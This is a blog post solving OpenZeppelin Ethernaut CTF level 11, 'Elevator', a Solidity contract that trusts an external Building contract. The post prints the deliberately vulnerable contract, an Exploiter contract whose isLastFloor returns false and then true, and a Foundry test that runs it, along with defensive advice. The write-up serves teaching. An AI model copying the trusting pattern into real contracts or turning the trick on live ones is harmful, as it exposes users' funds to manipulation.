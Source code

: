 ```yaml
---
title: 'Ethernaut Challenge #11 Solution — Elevator'
excerpt: This is Part 11 of the "Let’s play OpenZeppelin Ethernaut CTF" series, where I will explain how to solve each challenge.</br></br>The goal of this challenge is to be able to reach the top floor of the building.
coverImage: '/assets/blog/ethernaut/elevator.svg'
date: '2020-07-21T07:00:00.000Z'
author:
  name: Emanuele Ricci
  twitter: StErMi
  picture: '/assets/blog/authors/stermi.jpeg'
ogImage:
  url: '/assets/blog/ethernaut/elevator.svg'
---
```


This is Part 11 of the ["Let's play OpenZeppelin Ethernaut CTF"](https://stermi.xyz/blog/lets-play-openzeppelin-ethernaut) series, where I will explain how to solve each challenge.

> [The Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity based wargame created by [OpenZeppelin](https://openzeppelin.com/).
> Each level is a smart contract that needs to be 'hacked'. The game acts both as a tool for those interested in learning ethereum, and as a way to catalogue historical hacks in levels. Levels can be infinite and the game does not require to be played in any particular order.

# Challenge #11: Elevator

> This elevator won't let you reach the top of your building. Right?
> Things that might help:
>
> - Sometimes solidity is not good at keeping promises.
> - This `Elevator` expects to be used from a `Building`.
>
> Level author: [Martin Triay](https://github.com/martriay)

The goal of this challenge is to be able to reach the top floor of the building.

## Study the contracts

The code of the Challenge's Level is pretty simple, let's dump it here and study it

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}

```

The `Elevator` is a pretty simple contract.

It has two state variables:

- `bool public top` a boolean variable that will state if the elevator has arrived to the top of the building. It is initialized as `false` by default
- `uint256 public floor` an integer variable that will state to which floor the elevator has arrived. It is initialized to `0` by default

Then we have the `goTo` function that takes a `uint256 _floor`. This function is expected to be called by a smart contract that implements the `Building` interface.

Inside the function, it checks the `Building.isLastFloor` result that **should** state whether a floor is the top of the building or not.

If the floor **is not** the top of the building, the function update the `floor` state variable and update also the `top` state variable that should be `false` given that we entered the `if` state only because the same `building.isLastFloor` function has returned `false` just two lines of code above, **right**?

This challenge teaches two important lessons:

- **never, ever, trust an external actor as an assumption**
- **better safe than sorry**

The `msg.sender` (the Building contract) is an external actor. We only know that it must implement the `Building` interface, so it must:

- have a function called `isLastFloor`
- it takes a `uint256` input parameter
- it will return a `bool`

But in reality, apart from this information, we don't know what's inside that contract. How can we be certain that it will **really** return `true` **only** if the floor is the real top of the building?

My two cents suggestions would be:

- Only integrate with external contract that have a verified source code and that you can read what they do and with which other external service they will integrate
- If the external service is upgradable, you must really trust that the owner of the service will not act maliciously in the future
- Even if you trust the external actor, put some safeguards in the contract like some kind of pausable and emergency logic

## Solution code

The solution code is pretty simple, what we must do is to trick the `Elevator` to think that we have not reached the top of the building when it first calls the `isLastFloor` function and then return `true` (we have reached the top) when it calls it the second time.

Here's the code of the `Building` contract

```solidity
contract Exploiter is Building {
    Elevator private victim;
    address private owner;
    bool private firstCall;

    constructor(Elevator _victim) public {
        owner = msg.sender;
        victim = _victim;
        firstCall = true;
    }

    function goTo(uint256 floor) public {
        victim.goTo(floor);
    }

    function isLastFloor(uint256) external override returns (bool) {
        // if the Elevator call us the first time return `false` to trick him
        // but return `true` if the second time to exploit it
        if (firstCall) {
            firstCall = false;
            return false;
        } else {
            return true;
        }
    }
}
```

And here's the code of the test itself

```solidity
function exploitLevel() internal override {
    vm.startPrank(player, player);

    // deploy the contract
    Exploiter exploiter = new Exploiter(level);

    // trigger the exploit
    exploiter.goTo(0);

    // assert that the elevator has reached the top of the building
    assertEq(level.top(), true);

    vm.stopPrank();
}
```

You can read the full solution of the challenge opening [Elevator.t.sol](https://github.com/StErMi/foundry-ethernaut/blob/main/test/Elevator.t.sol)

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

I **do not give any warranties** and **will not be liable for any loss** incurred through any use of this codebase.

**DO NOT USE IN PRODUCTION**.
